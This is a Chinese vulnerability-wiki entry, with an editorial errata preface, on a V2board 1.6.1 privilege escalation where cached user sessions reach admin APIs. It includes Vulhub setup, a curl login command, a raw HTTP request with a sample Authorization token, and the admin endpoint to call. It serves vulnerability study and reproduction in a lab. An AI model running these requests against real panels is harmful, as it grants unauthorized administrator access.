




# V2board-1.6.1-提权漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：V2board 1.6.1 Web管理面板
- 文献类型：应用鉴权复现
- 版本、权限及部署边界：必须普通账号，先登录获取auth_data再访问user/info写缓存后调用admin API
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 确定误归Linux系统提权，实际Web应用普通用户升管理员，与OS root无关
2. frontmatter version为docker-compose up -d命令而非1.6.1
3. 认证前提、缓存热身步骤、修复commit清楚，技术流程可保留；缺Vulhub具体目录/commit和发行修复版本
4. 硬编码Authorization示例包含认证材料样式，应以TOKEN占位；成功证据仅图片未查看
5. 所谓所有管理员API需限定已测试接口和源码覆盖，不以单例推断全量

### 操作风险

所谓所有管理员API需限定已测试接口和源码覆盖，不以单例推断全量

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>
- 原文参考链接（未重新核验）：<http://your-ip:8080`即可查看到其登录页面>
- 原文参考链接（未重新核验）：<http://your-ip:8080/api/v1/passport/auth/login>
- 原文参考链接（未重新核验）：<http://your-ip:8080/api/v1/admin/user/fetch`>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

V2board是一个多用户代理工具管理面板。在其1.6.1版本中，引入了对于用户Session的缓存机制，服务器会将用户的认证信息储存在Redis缓存中。

但由于读取缓存时没有校验该用户是普通用户还是管理员，导致普通用户的认证信息即可访问管理员接口，造成提权漏洞。

参考链接：

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## 环境搭建

Vulhub执行如下命令启动一个V2board 1.6.1版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到其登录页面。




## 漏洞复现

复现该漏洞，必须注册或找到一个普通用户账号。注册完成后，我们发送如下请求进行登录（将其中账号密码替换成你注册时使用的信息）：

```
curl -i -s -k -XPOST --data-binary "email=threeki%40abc.com&password=threeki@wh0am1" http://your-ip:8080/api/v1/passport/auth/login
```

服务器会返回当前用户的认证信息“auth_data”：




拷贝这个认证信息，并替换到如下数据包的`Authorization`头中，发送：

```
GET /api/v1/user/info HTTP/1.1
Host: your-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Authorization: dGhyZWVraUBhYmMuY29tOiQyeSQxMCRnb1UzUDBCL25ocTg2blZvYTUvRm5PbVpKUG5yTFptZ2hJa3FUNUdRYndVL003WXNpdVlqMg==
```




这一步的目的是让服务器将我们的Authorization头写入缓存中。

最后，只需要带上这个Authorization头，即可使用所有管理员API了。例如`http://your-ip:8080/api/v1/admin/user/fetch`




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
